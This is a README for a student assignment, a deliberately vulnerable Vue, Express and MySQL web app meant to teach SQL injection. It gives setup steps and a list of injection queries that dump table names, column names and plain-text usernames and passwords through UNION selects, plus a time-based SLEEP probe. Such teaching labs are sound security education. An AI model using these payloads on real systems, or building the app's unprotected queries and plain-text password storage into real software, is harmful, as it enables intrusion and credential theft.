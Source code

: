 # Secure Systems Assignment 2 - SQL Injection
# Bearach Byrne - C15379616

This is a simple web app originally taken from https://github.com/TanayB11/sql-injection-demo.git, with some minor modifications.

This application is a lesson in how not to create a web application. It purposefully does not make use of any defenses against SQLi attacks.

## Stack
- Vue
- Node + Express
- MySQL

The below setup guide is for Linux (I set it up and ran it on Ubuntu 20.04.4 LTS

## Setup
1. Clone the repo to a directory - `git clone https://github.com/BearachB/sql_inject_demo.git`
8. Install Homebrew - `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)`. Ensure you add Homebrew to your path and bash shell profile script (follow prompts after installing Homebrew). 
9. Install MySQL `brew install mysql`
10. Start the MySQL server with `mysql.server start`
11. Login to MySQL with `mysql -u root -p`. The default password is blank
12. Run `ALTER USER 'root'@'localhost' IDENTIFIED BY 'new_password';` to change your MySQL password
13. Run `CREATE DATABASE sql_injection_demo` to create a new database for this project
14. `QUIT` exits the MySQL monitor - Note: `mysql.server stop` stops the MySQL server. Do not run this if you are using the server.
15. Add your MySQL credentials to an environment variable.
```bash
$ cd server
$ echo 'MYSQL_CREDS="mysql_password"' > .env
```

10. To start the Express Server.
```bash
$ cd client && yarn install     # Installs client dependencies
$ cd ../server && yarn install  # Installs server dependencies
$ yarn dev                      # Starts Express server
```
11. To start the Vue server: In a new terminal, run:
```bash
$ cd client
$ yarn serve                    # Starts Vue.js server
```
12. This should open your default browser and connect to your local Vue server, if this doesn't happen go to your browser and manually connect to localhost:8080. 
13. Try search for a computer part, such as "cpu" or "board".
14. Try some SQLi inputs in the search box:
```
-- Sleeps for 2 seconds per item found
SELECT * FROM products WHERE name LIKE '%steel%' AND 0 = SLEEP(2); -- 

-- Selects everything
SELECT * FROM products WHERE name LIKE '%'; -- 

-- Append 1, 2, 3 on the bottom
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT 1, 2, 3 FROM dual);  -- 

-- Get a list of tables
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables);  -- 

-- Get all columns from "users" table
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users');  -- 

-- Grab usernames and passwords (stored in plain text)
SELECT ?, ?, ? FROM products WHERE name LIKE '%steel%' UNION (SELECT id, username, password FROM users);  -- 
```
If you get errors connecting to MySQL, run the following:
`$ mysql -u root -p`
```SQL
ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'mysql_password';
flush privileges;
QUIT;
```
